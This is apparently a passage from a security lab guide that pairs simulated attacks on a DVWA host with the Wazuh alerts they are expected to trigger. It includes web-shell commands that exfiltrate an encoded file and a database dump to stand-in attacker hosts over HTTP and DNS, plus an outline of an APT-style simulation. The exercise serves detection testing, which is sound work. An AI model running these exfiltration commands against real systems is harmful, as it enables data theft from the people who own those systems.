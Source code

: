 **Expected Detections:**

- Database dump creation
- Large file operations
- Wazuh Rule: 40108 (Data collection)
- Alert Level: High

#### 2.2 Data Transfer

```bash
# HTTP exfiltration
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=curl -X POST -d @/tmp/encoded_data.txt http://attacker-server.com/upload"

# DNS exfiltration (chunked)
curl "http://192.168.2.10/dvwa/hackable/uploads/shell.php?cmd=xxd -p /tmp/database_dump.sql.gz | fold -w 32 | while read line; do nslookup \$line.attacker-domain.com; done"
```

**Expected Detections:**

- Large outbound data transfers
- Suspicious DNS queries
- Wazuh Rule: 40109 (Data exfiltration)
- Alert Level: Critical

---

## Scenario 5: Advanced Persistent Threat (APT) Simulation

### Objective

Simulate a sophisticated, multi-stage attack campaign typical of APT groups.

### Target Systems

- **All systems**: Multi-vector attack

### Attack Timeline

**Duration**: 2-3 hours  
**Complexity**: Expert  
**MITRE ATT&CK Techniques**: Multiple across all tactics

### Phase 1: Initial Compromise (30 minutes)

- Spear phishing simulation
- Watering hole attack
- Supply chain compromise

### Phase 2: Persistence and Evasion (45 minutes)

- Multiple persistence mechanisms
- Anti-forensics techniques
- Living off the land
